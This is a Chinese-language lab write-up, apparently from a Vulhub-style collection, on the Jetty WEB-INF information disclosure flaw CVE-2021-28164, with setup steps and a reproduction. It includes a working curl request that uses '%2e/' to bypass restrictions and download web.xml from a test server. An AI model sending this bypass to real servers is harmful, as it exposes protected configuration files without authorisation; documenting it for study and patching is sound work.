 # Jetty WEB-INF 敏感信息泄露漏洞 CVE-2021-28164

## 漏洞描述

Eclipse Jetty是一个开源的servlet容器，它为基于Java的Web容器提供运行环境。

Jetty 9.4.37引入对RFC3986的新实现，而URL编码的`.`字符被排除在URI规范之外，这个行为在RFC中是正确的，但在servlet的实现中导致攻击者可以通过`%2e`来绕过限制，下载WEB-INF目录下的任意文件，导致敏感信息泄露。该漏洞在9.4.39中修复。

参考链接：

- https://github.com/eclipse/jetty.project/security/advisories/GHSA-v7ff-8wcx-gmc5
- https://xz.aliyun.com/t/10039

## 环境搭建

Vulhub执行如下命令启动一个Jetty 9.4.37：

```
docker-compose up -d
```

服务启动后，访问`http://your-ip:8080`可以查看到一个example页面。

![image-20220224164457554](./images/202202241644641.png)

## 漏洞复现

直接访问`/WEB-INF/web.xml`将会返回404页面：

![image-20220224164854151](./images/202202241648274.png)

使用`%2e/`来绕过限制下载web.xml：

```
curl -v 'http://192.168.1.162:8080/%2e/WEB-INF/web.xml'
```

![image-20220224164909832](./images/202202241649911.png)

